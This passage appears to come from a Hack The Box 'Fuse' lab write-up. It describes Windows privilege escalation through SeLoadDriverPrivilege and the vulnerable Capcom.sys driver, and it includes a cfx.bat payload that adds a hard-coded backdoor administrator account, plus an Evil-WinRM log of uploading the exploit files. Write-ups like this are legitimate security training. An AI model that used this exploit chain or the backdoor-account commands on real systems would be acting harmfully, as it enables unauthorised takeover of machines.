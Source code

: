 Now after changing the code, select the dropdown to Release and x64, then select Build -> Build Solution. Once completed We need to copy the `ExploitCapcom.exe` to our kali machine.

### Generate Payload

We need to create `cfx.bat` and Whichever commands we input inside `cfx.bat` it will run as SYSTEM.

So, Instead of getting a reverse shell as SYSTEM, Inside `cfx.bat` We'll input commands to create a new user with credentials `coldfusion:ColdFusi0nX` and also add this user to Administrators Local group.

#### cfx.bat

```shell
cfx:  ~/Documents/htb/fuse
→ cat cfx.bat
C:\Windows\System32\net.exe users coldfusion ColdFusi0nX /add
C:\Windows\System32\net.exe localgroup administrators coldfusion /add

```
Now that we have all the files ready, we can proceed with the exploitation. You can also find the files on my [**repo**](https://github.com/ColdFusionX/LabScripts/tree/master/HTB/Fuse/SeLoadDriverPrivilege)

### Exploitation

First, we will create a Directory `Priv` inside `C:\` and upload LoadDriverPriv.exe, Capcom.sys, ExploitCapcom.exe & cfx.bat into it.

```shell
*Evil-WinRM* PS C:\> mkdir Priv

*Evil-WinRM* PS C:\> cd Priv

*Evil-WinRM* PS C:\Priv> upload LoadDriverPriv.exe
Info: Uploading LoadDriverPriv.exe to C:\Priv\LoadDriverPriv.exe


Data: 20480 bytes of 20480 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Priv> upload Capcom.sys
Info: Uploading Capcom.sys to C:\Priv\Capcom.sys


Data: 14100 bytes of 14100 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Priv> upload ExploitCapcom.exe
Info: Uploading ExploitCapcom.exe to C:\Priv\ExploitCapcom.exe


Data: 363176 bytes of 363176 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Priv> upload cfx.bat
Info: Uploading cfx.bat to C:\Priv\cfx.bat


Data: 176 bytes of 176 bytes copied

Info: Upload successful!

```